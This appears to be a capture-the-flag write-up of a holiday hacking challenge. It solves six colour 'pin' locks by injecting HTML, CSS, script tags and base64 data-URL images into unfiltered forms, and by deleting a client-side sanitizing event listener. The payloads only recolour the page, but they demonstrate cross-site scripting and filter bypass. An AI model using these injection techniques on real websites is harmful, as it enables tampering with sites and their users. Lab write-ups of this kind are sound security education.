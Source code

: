 Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

Difficulty: 3/5

## Chat with Hal Tandybuck
Oh hi, I'm Hal Tandybuck. And who might you be?

I'm hanging out by the door to the mines here because, well, I haven't figured out the locks yet.

It actually reminds me of this locked crate I had three years ago...

I doubt we'll get much in the way of debug output.

Think you can help me get through?

## Terminal
First we read source code to figure out how the locks work so that we can open the door.

Each pin is coded as a form within an iframe. When we click the go button, that will submit the form by generating a post request to the server.

The idea is to connect the color sensors so that there is a continuous colour path from the input sensor to the output sensor.

```
<div class="iframes">
            <iframe src="/pin1" class="pin1 completed"></iframe>
            <iframe src="/pin2" class="pin2"></iframe>
            <iframe src="/pin3" class="pin3"></iframe>
            <iframe src="/pin6" class="pin6"></iframe>
            <iframe src="/pin5" class="pin5"></iframe>
            <iframe src="/pin4" class="pin4"></iframe>
        <img class="wiring" src="wiring.png">
            <canvas class="effects" width="744" height="422"></canvas>
            <button class="helpBtn">?</button>
        </div>
```
pin1:

![](../images/web_ring/pin1_before.png)
Looking at the source code for pin 1 we see the answer within a comment.
```
<form method="post" action="pin1">
        <!-- @&@&&W&&W&&&& -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
```

`@&@&&W&&W&&&&`

![](../images/web_ring/pin1_after.gif)

pin2:
![](../images/web_ring/pin2_before.png)
Looking at the comment in the form we get a clue that the input may not filter out HTML.
```
<form method="post" action="pin2">
        <!-- TODO: FILTER OUT HTML FROM USER INPUT -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
  ```

As both the input and output sensors are white let's attempt to fill the pin with white color.

`<style>body {background-color: white;}</style>`

![](../images/web_ring/pin2_after.gif)

pin3:
![](../images/web_ring/pin3_before.png)
Looking at the comment in the form we get a clue that the input may not filter out javascript.
```
<form method="post" action="pin3">
        <!-- TODO: FILTER OUT JAVASCRIPT FROM USER INPUT -->
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off">
        <button>GO</button>
    </form>
```
As both the input and output sensors are blue let's attempt to fill the pin with blue color using JS.

`<script>document.querySelector("body").style.cssText = "background-color:blue"</script>`

![](../images/web_ring/pin3_after.gif)
pin4:
![](../images/web_ring/pin4_before.png)
```
<form method="post" action="pin4">
        <input class="inputTxt" name="inputTxt" type="text" value="" autocomplete="off" onblur="sanitizeInput()">
        <button>GO</button>
    </form>
```
```
const sanitizeInput = () => {
            const input = document.querySelector('.inputTxt');
            const content = input.value;
            input.value = content
                .replace(/"/, '')
                .replace(/'/, '')
                .replace(/</, '')
                .replace(/>/, '');
        }
```

As the sanitization happens on the client side, it can be easily disabled from the browser itself from the Event Listeners tab:
![](../images/web_ring/remove_blur.png)
Remove blur event listener on input element and submit the following HTML. As HTML sanitization doesn't happen at the server end either, the code is executed as is.

```
<div style="height:100px;width:200px;background-color:white"></div>
<div style="height:100px;width:200px;background-color:blue"></div>
```

![](../images/web_ring/pin4_after.gif)

pin5:
![](../images/web_ring/pin5_before.png)
Similar to pin4, remove the event listener on blur and submit the following JS. As JS sanitization doesn't happen at the server end either, the code is executed as is.
```
<script>
bod = document.querySelector("body");
bod.style.cssText = "background-color:red";
new_div = document.createElement("div");
new_div.style.cssText = "height: 120px;width: 200px;background-color:blue;margin-left: 20px;margin-top: 100px;";
bod.append(new_div);
</script>
```

![](../images/web_ring/pin5_after.gif)

pin6:
![](../images/web_ring/pin6_before.png)
After a lot of fiddling around with the filter on this one I realised that some HTML and JS input validation was present but the img HTML element did not seem to be filtered. In particular image [data urls](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs) were allowed!
In fact, most of the pins did not filter the img element with data URL as source:

![cats](../images/web_ring/cats.png)



To solve pin6 we need green, red and blue colored images which I picked up from wikimedia commons.

> Red

<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
```

> Blue

<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```


>Green

<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```
<img src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
```

> Putting it all together
```
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUA/wA0XsCoAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="40" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEX/AAAZ4gk3AAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">
<img width="200" height="60" src="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAOEAAADhCAMAAAAJbSJIAAAAA1BMVEUAAP+KeNJXAAAASElEQVR4nO3BgQAAAADDoPlTX+AIVQEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADwDcaiAAFXD1ujAAAAAElFTkSuQmCC">

```

![](../images/web_ring/pin6_after.gif)

## Rejoice

![](../images/web_ring/pins_solved.gif)

Wha - what?? You opened all the locks?! Well then...

Did you see the nearby terminal with evidence of an XXE attack?

Maybe take a close look at that kind of thing.